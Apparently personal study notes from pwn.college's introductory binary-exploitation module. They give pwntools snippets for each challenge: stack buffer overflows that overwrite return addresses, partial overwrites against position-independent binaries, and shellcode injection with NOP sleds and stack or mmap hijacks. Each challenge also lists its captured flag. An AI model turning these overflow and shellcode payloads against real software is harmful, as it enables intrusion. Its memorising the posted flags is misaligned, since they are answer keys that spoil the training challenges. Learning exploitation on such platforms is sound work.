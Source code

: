 ```yaml
---
ai_date: '2025-04-27 05:30:10'
ai_summary: 'Explored various binary exploitation techniques: variable control, control
  hijack, PIEs, string lengths, shellcode (NOP sleds, null-free, hijack to mapped
  memory, hijack to shellcode), and using IDA for analysis.'
ai_tags:
- pwn
- shellcode
- exploitation
created: 2025-01-01T04:01
updated: 2025-01-01T18:35
---
```


[pwn.college/intro-to-cybersecurity/binary-exploitation/](https://pwn.college/intro-to-cybersecurity/binary-exploitation/)

Fun intro to pwn!
## Variable Control

```python
p.send(b"A"*(8*7+4)+p32(537906058))
# pwn.college{IbWcCEgwb_3NmxBQOakpaZ8L8mV.dhTNzMDL4MTNzYzW}
```

## Control Hijack

```python
p.send(b"A"*8*7+p64(0x4014c8)) # easy
# pwn.college{sjqEokLrLnlDZW3u8G_W0W7kAGz.01M5IDL4MTNzYzW}
p.send(b"A"*8*(14+1+1+1)+p64(0x401C6F)) # 14 i64 ; 1 int ; 1 sizet ; 1 base pointer
# pwn.college{gTV54k_-ulMQYgDzC3Vh_mCftbz.0FN5IDL4MTNzYzW}
```

## Tricky Control Hijack

```python
p.send(b"A"*(121+31)+p64(0x00401d74)) # easy
# pwn.college{oR39AEc9qZaLen24njN6hKpfsaA.0VO5IDL4MTNzYzW}
p.send(b"A"*8*(8+1+1+1+1+1)+p64(0x004015FB)) # 8 i64 ; 1 i16 ; 1 int ; 1 sizet ; 1 base pointer
# pwn.college{gkl-HAozRVjCOL58ddWZgrjluSZ.0FMwMDL4MTNzYzW}
```

## PIEs

```python
p.send(b"A"*8*(9+1+1+1+1)+p16(0x037E))
# pwn.college{QD_tEkBqsGxZhFGVZqF4wVArs1c.0VMwMDL4MTNzYzW}
p.send(b"A"*8*(11+1+1+1+1)+p16(0x6D1)) # 11 i64 ; 1 char ; 1 int ; 1 sizet ; 1 base pointer
# pwn.college{kgYa6adJ7d99q5RJ3UtvPka9GeD.0lMwMDL4MTNzYzW}
```

## String Lengths

```python
p.send(b"\x00"*8*(9+1+1+1+1+1+1)+p16(0x1DD7))
# pwn.college{wOakrYJ9rSpwCNDTCo_v8r8lrpY.01MwMDL4MTNzYzW}
p.send(b"\x00"*8*(4+1+1+1+1+1+1+1)+p16(0x1E83)) # 4 i64 ; 1 int ; 1 i16 ; 1 char ; 1 sizet ; 1 int ; 1 void* ; 1 sizet ; 1 base pointer
# pwn.college{cH39TBWBTDBxBC820wjWZC8HT6I.0FNwMDL4MTNzYzW}
```

## Shellcode Basic

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-basic-shellcode")
sc = shellcraft.amd64.linux.cat('/flag')
# sc = shellcraft.execve(path="/bin/cat", argv=["/flag"])
# sc = shellcraft.sh()
sc = asm(sc)
p.send(sc)
p.interactive()
```

For some reason neither `sh` nor `/bin/cat` worked.

## Shellcode NOP Sleds

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-nopsled-shellcode")
sc = pwnlib.shellcraft.amd64.nop()*0x800+shellcraft.amd64.linux.cat('/flag')
sc = asm(sc)
p.send(sc)
p.interactive()
```

## Shellcode Null free

The payload from basic shellcode works.

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-null-free-shellcode")
sc = shellcraft.amd64.linux.cat('/flag')
sc = asm(sc)
p.send(sc)
p.interactive()
```

## Shellcode Hijack to Mapped

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-hijack-to-mmap-shellcode-w")
sc = shellcraft.amd64.linux.cat('/flag')
sc = asm(sc)
p.send(sc)
p.sendline()
p.send(b'A'*8*7+p64(0x15870000))
print(p.recvall().decode())
```

For the hard version, I've figured out how to make use of IDA's `rbp` stuff. `rbp` is just the base pointer location, which saves a lot more time.

```python
# __int64 buf[2]; // [rsp+20h] [rbp-20h] BYREF
p.send(b'A'*(0x20+8)+p64(0x1a317000))
```

## Shellcode Hijack to Shellcode
I tried injecting the shell code before the return address, i.e. make the return address jump back, but it didn't work.

```python
payload = sc.ljust(8*7,asm(pwnlib.shellcraft.amd64.nop())) + p64(0x00007fffffffce00)
```

Instead the shell code is injected after the return address.

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-hijack-to-shellcode-w")
sc = shellcraft.amd64.linux.cat('/flag')+pwnlib.shellcraft.amd64.nop()*3
sc = asm(sc)
payload = b'A'*8*7 + p64(0x00007fffffffce38+8) + sc
p.send(payload)
print(p.recvall().decode())
```

For the hard version.

```python
# __int64 buf[2]; // [rsp+20h] [rbp-20h] BYREF
payload = b'A'*(0x20+8) + p64(0x00007fffffffce38+8) + sc
```

## Conclusion

Wow, this was really helpful.

First time ever using shellcode, never knew it was this fun and easy.

Also learnt how to use IDA better.